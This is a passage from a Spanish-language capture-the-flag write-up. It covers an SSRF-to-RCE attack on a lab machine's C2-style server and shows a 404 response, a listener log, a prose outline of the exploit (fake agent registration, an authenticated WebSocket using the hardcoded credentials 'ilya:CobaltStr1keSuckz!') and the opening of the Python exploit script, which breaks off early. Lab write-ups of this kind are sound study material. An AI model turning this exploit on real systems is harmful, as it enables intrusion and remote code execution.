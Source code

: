 ```bash
<html lang="en">
    <head>
        <meta charset="utf-8">
        <title>Error response</title>
    </head>
    <body>
        <h1>Error response</h1>
        <p>Error code: 404</p>
        <p>Message: File not found.</p>
        <p>Error code explanation: 404 - Nothing matches the given URI.</p>
    </body>
</html>
```

Aunque el exploit se ejecutó correctamente, la solicitud realizada al servidor no reveló información adicional relevante. En lugar de una dirección IP interna, recibimos la respuesta HTTP estándar `404 File not found`.

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.49 - - [21/Jan/2025 09:43:01] code 404, message File not found
10.10.11.49 - - [21/Jan/2025 09:43:01] "GET /vulnerable HTTP/1.1" 404 -
```

### Creating a Python Script to exploit SSRF-RCE on the machine

Con la ayuda de ChatGPT, creamos el siguiente script en Python que aprovecha una vulnerabilidad de **SSRF** para lograr un **RCE**, adaptándose a las configuraciones observadas en el sistema objetivo. A continuación, se detalla su funcionamiento:

**Registro del Agente**

La función `register_agent` envía una solicitud cifrada con información del host comprometido, incluyendo nombre del usuario, IP interna y detalles del proceso. Esto registra al agente malicioso en el sistema.

**Comunicación mediante WebSocket**

Se establece un WebSocket autenticado utilizando las credenciales `ilya:CobaltStr1keSuckz!`. Posteriormente, se configura un listener para recibir conexiones del sistema objetivo.

**Construcción del Payload SSRF-RCE**

El payload malicioso utiliza la siguiente cadena para ejecutar comandos arbitrarios en el servidor

{% code title="SSRF-RCE.py" %}
```python
import os
import json
import hashlib
import binascii
import random
import requests
import argparse
import urllib3
urllib3.disable_warnings()

from Crypto.Cipher import AES
from Crypto.Util import Counter

USER = "ilya"
PASSWORD = "CobaltStr1keSuckz!"

key_bytes = 32

def decrypt(key, iv, ciphertext):
```